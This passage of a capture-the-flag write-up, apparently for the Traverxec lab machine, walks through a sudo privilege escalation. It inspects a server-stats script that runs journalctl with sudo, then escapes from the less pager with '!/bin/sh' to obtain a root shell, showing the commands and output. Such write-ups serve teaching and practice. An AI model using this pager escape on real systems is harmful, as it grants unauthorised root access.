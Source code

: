  \|'-.....-'\| \|::::\|

 '""\)---\(""' \|\_\_\_.\|

 /:::::::::::\" "

 /:::=======:::\

 jgs '"""""""""""""'

david@traverxec:~/bin$ cat server-stats.sh

\#!/bin/bash

cat /home/david/bin/server-stats.head

echo "Load: \`/usr/bin/uptime\`"

echo " "

echo "Open nhttpd sockets: \`/usr/bin/ss -H sport = 80 \| /usr/bin/wc -l\`"

echo "Files in the docroot: \`/usr/bin/find /var/nostromo/htdocs/ \| /usr/bin/wc -l\`"

echo " "

echo "Last 5 journal log lines:"

/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service \| /usr/bin/cat

david@traverxec:~/bin$

The interesting part of this is the sudo command running the program journalctl. This is a program that interacts with journald a daemon \(service\) that manages the journals \(logs\) generated by systemd on a Linux system. The script is displaying the contents of server-stats.head, then doing the "uptime" command which shows the current time, how long the system has been running and the number of users logged onto the system. The ss command will list the open sockets connected to the web server on port 80 and then count the number of lines in the output using wc -l. Finally, the sudo command is running journalctl which is listing the last 5 entries of the logs for the web server nostromo.service.

 Since we can run journalctl using sudo, we can look at GTFObins and find that journalctl uses less when the content is longer than a single page. Less is a program on Linux that will break content into pages and allows vi commands to search for content as well as dropping into an interactive shell with !/bin/sh command. Journalctl does not drop the sudo privileges when running less and so it is possible to drop to an elevated shell very simply by running:

david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service

-- Logs begin at Mon 2020-12-28 22:14:43 EST, end at Tue 2020-12-29 21:00:02 EST. --

Dec 29 07:15:25 traverxec crontab\[2738\]: \(www-data\) LIST \(www-data\)

Dec 29 07:17:38 traverxec sudo\[8915\]: pam\_unix\(sudo:auth\): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/0 ruser=www-data rhost= user=w

Dec 29 07:17:40 traverxec sudo\[8915\]: pam\_unix\(sudo:auth\): conversation failed

Dec 29 07:17:40 traverxec sudo\[8915\]: pam\_unix\(sudo:auth\): auth could not identify password for \[www-data\]

Dec 29 07:17:40 traverxec sudo\[8915\]: www-data : command not allowed ; TTY=pts/0 ; PWD=/dev/shm ; USER=root ; COMMAND=list

!/bin/sh

\# whoami

root

